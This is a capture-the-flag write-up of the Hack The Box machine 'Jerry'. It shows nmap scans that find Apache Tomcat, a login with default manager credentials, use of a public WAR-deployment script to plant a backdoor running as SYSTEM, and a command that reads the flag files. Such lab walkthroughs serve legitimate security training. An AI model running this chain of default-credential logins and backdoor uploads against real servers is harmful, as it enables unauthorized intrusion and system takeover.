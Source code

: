 ```yaml
---
layout: single
title: "Jerry - Hacking Windows HTB Box "
categories: htb
classes: wide
---
```


Machine: Jerry

Ip: 10.10.10.95


Usually, First i perform all ports scanning
```bash
nmap -p- -v -T5 10.10.10.95
```
Nmap found only port 8080 open. Again scan to enumerate the version of it.

```bash
$ nmap -p8080 -sV -sC  -T5 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88


```

This version is vulnerable to war file upload( ![CVE LINK](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12617)). To exploit this we need creds info. 

I found the default creds in ```http://10.10.10.95/manager```:
```
Username: tomcat
Password: s3cret 
```

It was really easy machine to exploit. I found an awesome exploit script:
```
https://github.com/mgeeky/tomcatWarDeployer
```

Running this script as follows:
```
python tomcatWarDeployer.py.py -U tomcat -P s3cret -v 10.10.10.95:8080
```
![Exploiting Jerry](/images/jerry1.png)

And it upload a backdoor as system. So i was able to find all flags with following command:
```bat
cmd /c type c:\Users\Administrator\Desktop\flags\*.txt
```

Screenshot:
![Hacking Windows 2012 HTB Box jerry](/images/jerry-root.png)